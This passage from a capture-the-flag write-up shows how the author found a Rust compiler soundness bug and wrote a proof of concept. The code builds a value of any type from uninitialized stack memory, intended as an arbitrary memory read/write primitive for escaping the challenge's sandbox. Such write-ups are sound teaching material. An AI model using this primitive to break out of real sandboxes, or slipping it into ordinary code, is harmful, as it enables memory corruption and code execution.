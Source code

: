 ## The bug
From the challenge conditions, it seemed quite clear that I'd need a soundness bug in order to execute arbitrary code. The challenge archive includes a [Dockerfile](/static/google19/sandstone/Dockerfile), which has the exact Rust toolchain listed - `nightly-2019-05-18`. This being fairly new (`1.36`, while the current nightly at the time of writing is `1.37`), I realized that the right bug to use is likely still not fixed, so instead of checking release notes, it's better to look at the issue tracker.

Searching the Rust issue tracker for `I-unsound 💥`, I found [#61696](https://github.com/rust-lang/rust/issues/61696), which looked promising.[^2] I reused snippets from the tracker to come up with a PoC:
```rust
pub enum Void {}

pub enum E1 {
    V1 { f: bool },
    V2 { v: Void },
    V3,
    V4,
}

pub fn void_unwrap<T>(x: Result<T, Void>) -> T {
    match x {
        Ok(val) => val,
        // The compiler thinks this branch is unreachable,
        // because the Void type has no inhabitants, so
        // it should be impossible to produce a value
        // of type Void.
        Err(v) => match v {}
    }
}

/// Makes a value of any type out of thin air.
pub fn mk_any<T>() -> T {
    match (E1::V1 { f: true }) {
        // The actual bug happens here - instead of going
        // into the loop below as it should, control flow
        // matches E1::V1 with E1::V2 and extracts a v: Void.
        E1::V2 { v } => {
            void_unwrap(Err(v))
        }
        _ => loop {}
    }
}
```
Using the function `mk_any` to instantiate a variable effectively leaves it uninitialized - it will reuse whatever value was already on the stack. With this in mind, an uninitialized pointer - `let mut b: Box<usize> = mk_any();` - *should* allow us to access arbitrary memory as long as we can force the stack frame to contain the right address. As it turned out, doing that is not at all so easy, but after writing the PoC I optimistically assumed the arbitrary read/write primitive would work, and went on to write the rest of the exploit.


[^1]: Actually the check for `"unsafe"` strings, present in the source, wasn't working on remote, but there is also a `#![forbid(unsafe_code)]` compiler directive in the template, so I couldn't use `unsafe`.
[^2]: After the CTF, it turned out that the intended solution was to use [#57893](https://github.com/rust-lang/rust/issues/57893). The flag lists [#31287](https://github.com/rust-lang/rust/issues/31287), but that's a typo - as I mentioned, it's been fixed by NLL.
[^3]: Up from 36th last year. By induction, in 2020 we'll be (-4)th.
[^4]: Turns out, `&main as *const _` and `main as *const u64` are not the same.